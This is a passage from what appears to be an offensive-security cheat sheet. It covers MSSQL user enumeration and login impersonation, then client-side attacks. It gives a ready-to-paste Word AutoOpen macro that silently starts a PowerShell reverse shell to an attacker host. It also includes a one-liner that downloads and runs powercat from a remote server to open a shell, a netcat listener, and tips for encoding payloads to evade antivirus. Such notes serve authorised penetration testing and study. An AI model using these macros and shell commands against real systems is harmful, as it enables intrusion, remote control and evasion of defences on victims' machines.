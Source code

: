     enum_users  -- To enumerate users
    enum_impersonate -- Check for impersonation possibilities
    exec_as_login <login_name>  -- To impersonate a login

    enum_links -- To enumerate linked servers
    use_link <linked_server_name>  -- To use linked server
    ```
- Client-Side Attacks
  - Windows Word Macros
    - Create a Word document with a macro that opens a reverse shell when the document is opened.
    - View --> Macros --> Create new macro and paste the code below.
    - Example VBA code:
        ```vba
        Sub AutoOpen()
            Dim strCmd As String
            strCmd = "powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',ATTACKER_PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
            CreateObject("WScript.Shell").Run strCmd, 0, False
        End Sub
        ```

    - Replace `ATTACKER_IP` and `ATTACKER_PORT` with your listener's IP and port.

    - Setup python simple HTTP server to host the document:
    
        ```bash
        python3 -m http.server 80
        ```

        ```bash
        IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
        ```

    - Set up a listener on your machine:
        
        ```bash
        nc -lvnp 4444
        ```

## Fix exploitation

* [ ] Change port number if default port is blocked by firewall.
* [ ] Change the shellcode architecture (x86, x64) to match target system.
* [ ] Fix payload.
* [ ] Encode the payload to bypass antivirus or IDS/IPS systems.
* [ ] Use different payload types (reverse shell, bind shell, meterpreter) based on the situation.
* [ ] Use different target upload location.


### Install MinGW on Kali Linux
`sudo apt install mingw-w64` – Install MinGW for cross-compiling Windows binaries on Linux.
